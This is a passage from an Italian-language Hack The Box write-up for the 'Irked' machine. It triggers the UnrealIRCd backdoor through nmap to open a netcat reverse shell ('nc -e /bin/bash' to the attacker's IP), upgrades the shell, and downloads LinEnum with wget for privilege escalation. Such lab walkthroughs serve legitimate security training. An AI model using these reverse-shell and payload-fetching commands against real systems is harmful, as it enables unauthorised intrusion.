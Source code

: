 ed eseguiamo quanto segue:

```bash
┌──(root㉿kali)-[/home/kali/htb/irked]
└─# nmap -p 8067 --script=irc-unrealircd-backdoor --script-args=irc-unrealircd-backdoor.command="nc -e /bin/bash 10.10.14.9 4444"  10.10.10.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-30 10:29 EDT
Nmap scan report for 10.10.10.117
Host is up (0.043s latency).

PORT     STATE SERVICE
8067/tcp open  infi-async
|_irc-unrealircd-backdoor: Server closed connection, possibly due to too many reconnects. Try again with argument irc-unrealircd-backdoor.wait set to 100 (or higher if you get this message again)
```

Otteniamo cosi una shell
```bash
┌──(root㉿kali)-[/home/kali]
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.117] 55623
```

Facciamo un upgrade dalla shell

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```

Prendiamo la flag
```bash
ircd@irked:/home$ ls
djmardov  ircd
ircd@irked:/home$ cd djmardov/
ircd@irked:/home/djmardov$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
ircd@irked:/home/djmardov$ cat user.txt
cat: user.txt: Permission denied
```

non abbiamo i permessi.

# PRIVESC

Scarichiamo LinEnum sulla macchina target
```bash
┌──(root㉿kali)-[/home/kali/tool/PrivEsc/LinEnum]
└─# python -m http.server 80    
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...


ircd@irked:/$ cd tmp
ircd@irked:/tmp$ wget http://10.10.14.9/LinEnum.sh
--2023-05-30 11:15:00--  http://10.10.14.9/LinEnum.sh
Connecting to 10.10.14.9:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 46631 (46K) [text/x-sh]
Saving to: ‘LinEnum.sh’

LinEnum.sh          100%[=====================>]  45.54K   139KB/s   in 0.3s   

```